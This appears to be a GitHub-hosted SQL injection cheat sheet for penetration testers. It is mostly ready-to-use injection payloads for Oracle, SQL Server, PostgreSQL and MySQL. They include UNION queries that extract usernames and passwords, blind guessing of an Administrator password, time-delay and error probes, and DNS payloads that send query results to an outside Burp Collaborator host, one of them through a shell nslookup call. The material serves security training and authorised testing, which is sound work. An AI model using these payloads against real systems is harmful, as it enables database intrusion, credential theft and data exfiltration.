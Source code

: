 ## SQL injection cheat sheet
This SQL injection cheat sheet contains examples of useful syntax that you can use to perform a variety of tasks that often arise when performing SQL injection attacks.

### String concatenation
You can concatenate together multiple strings to make a single string.

```sql
Oracle	'foo'||'bar'
Microsoft	'foo'+'bar'
PostgreSQL	'foo'||'bar'
MySQL	'foo' 'bar' [Note the space between the two strings]
CONCAT('foo','bar')
```
### Substring
You can extract part of a string, from a specified offset with a specified length. Note that the offset index is 1-based. Each of the following expressions will return the string ba.
```sql
Oracle	SUBSTR('foobar', 4, 2)
Microsoft	SUBSTRING('foobar', 4, 2)
PostgreSQL	SUBSTRING('foobar', 4, 2)
MySQL	SUBSTRING('foobar', 4, 2)
```
### Comments
You can use comments to truncate a query and remove the portion of the original query that follows your input.
```sql
Oracle	--comment
Microsoft	--comment
/*comment*/
PostgreSQL	--comment
/*comment*/
MySQL	#comment
-- comment [Note the space after the double dash]
/*comment*/
```
### Database version
You can query the database to determine its type and version. This information is useful when formulating more complicated attacks.
```sql
Oracle	SELECT banner FROM v$version
SELECT version FROM v$instance
Microsoft	SELECT @@version
PostgreSQL	SELECT version()
MySQL	SELECT @@version
```
### Database contents
You can list the tables that exist in the database, and the columns that those tables contain.
```sql
Oracle	SELECT * FROM all_tables
SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'
Microsoft	SELECT * FROM information_schema.tables
SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
PostgreSQL	SELECT * FROM information_schema.tables
SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
MySQL	SELECT * FROM information_schema.tables
SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
```
### Conditional errors
You can test a single boolean condition and trigger a database error if the condition is true.
```sql
Oracle	SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN TO_CHAR(1/0) ELSE NULL END FROM dual
Microsoft	SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END
PostgreSQL	1 = (SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/(SELECT 0) ELSE NULL END)
MySQL	SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')
```
### Batched (or stacked) queries
You can use batched queries to execute multiple queries in succession. Note that while the subsequent queries are executed, the results are not returned to the application. Hence this technique is primarily of use in relation to blind vulnerabilities where you can use a second query to trigger a DNS lookup, conditional error, or time delay.
```sql
Oracle	Does not support batched queries.
Microsoft	QUERY-1-HERE; QUERY-2-HERE
PostgreSQL	QUERY-1-HERE; QUERY-2-HERE
MySQL	QUERY-1-HERE; QUERY-2-HERE
```
> Note
With MySQL, batched queries typically cannot be used for SQL injection. However, this is occasionally possible if the target application uses certain PHP or Python APIs to communicate with a MySQL database.

### Time delays
You can cause a time delay in the database when the query is processed. The following will cause an unconditional time delay of 10 seconds.
```sql
Oracle	dbms_pipe.receive_message(('a'),10)
Microsoft	WAITFOR DELAY '0:0:10'
PostgreSQL	SELECT pg_sleep(10)
MySQL	SELECT SLEEP(10)
```
### Conditional time delays
You can test a single boolean condition and trigger a time delay if the condition is true.
```sql
Oracle	SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual
Microsoft	IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10'
PostgreSQL	SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END
MySQL	SELECT IF(YOUR-CONDITION-HERE,SLEEP(10),'a')
```
### DNS lookup
You can cause the database to perform a DNS lookup to an external domain. To do this, you will need to use Burp Collaborator to generate a unique Burp Collaborator subdomain that you will use in your attack, and then poll the Collaborator server to confirm that a DNS lookup occurred.

Oracle	The following technique leverages an XML external entity (XXE) vulnerability to trigger a DNS lookup. The vulnerability has been patched but there are many unpatched Oracle installations in existence:
```sql
SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual
```
The following technique works on fully patched Oracle installations, but requires elevated privileges:
```sql
SELECT UTL_INADDR.get_host_address('BURP-COLLABORATOR-SUBDOMAIN')
Microsoft	exec master..xp_dirtree '//BURP-COLLABORATOR-SUBDOMAIN/a'
PostgreSQL	copy (SELECT '') to program 'nslookup BURP-COLLABORATOR-SUBDOMAIN'
MySQL	The following techniques work on Windows only:
LOAD_FILE('\\\\BURP-COLLABORATOR-SUBDOMAIN\\a')
SELECT ... INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'
```
### DNS lookup with data exfiltration
You can cause the database to perform a DNS lookup to an external domain containing the results of an injected query. To do this, you will need to use Burp Collaborator to generate a unique Burp Collaborator subdomain that you will use in your attack, and then poll the Collaborator server to retrieve details of any DNS interactions, including the exfiltrated data.
```sql
Oracle	SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT YOUR-QUERY-HERE)||'.BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual
Microsoft	declare @p varchar(1024);set @p=(SELECT YOUR-QUERY-HERE);exec('master..xp_dirtree "//'+@p+'.BURP-COLLABORATOR-SUBDOMAIN/a"')
PostgreSQL	create OR replace function f() returns void as $$
declare c text;
declare p text;
begin
SELECT into p (SELECT YOUR-QUERY-HERE);
c := 'copy (SELECT '''') to program ''nslookup '||p||'.BURP-COLLABORATOR-SUBDOMAIN''';
execute c;
END;
$$ language plpgsql security definer;
SELECT f();
MySQL	The following technique works on Windows only:
SELECT YOUR-QUERY-HERE INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'
```
### UNION attacks
For a UNION query to work, two key requirements must be met:

- The individual queries must return the same number of columns.<br>
- The data types in each column must be compatible between the individual queries.
    
    **Number of columns:**
    ```sql
    ' ORDER BY 1--
    ' ORDER BY 2--
    ... until error
    
    OR

    ' UNION SELECT NULL--
    ' UNION SELECT NULL,NULL--
    ... until success
    ```
    **Probing for string data in columns:**
    ```sql
    ' UNION SELECT 'a',NULL,NULL,NULL--
    ' UNION SELECT NULL,'a',NULL,NULL--
    ... until successfully injected string value
    ```

    **Retrieving data**
    ```sql
    ' UNION SELECT username, password FROM users--
    ```
    **Retrieving multiple values within a single column**
    <br>
    ```sql
    ' UNION SELECT username || '~' || password FROM users--
    ```

### Blind Injection

**Divide and conquer password guessing:**
```sql
' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm

IF TRUE:

xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 't

IF FALSE:
Try for example:
xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) = 's

IF TRUE, first letter of the password has been found.
```
### SQL injection in different contexts

***JSON or XML based SQL injection often require code obfuscation.
<br>
Most common encoder:
urlencode, dec, html entity

[Hackvertor](https://hackvertor.co.uk/public) is a good tool to start with.<br>
Also there is a plugin for Burp with the same name working with repeater.


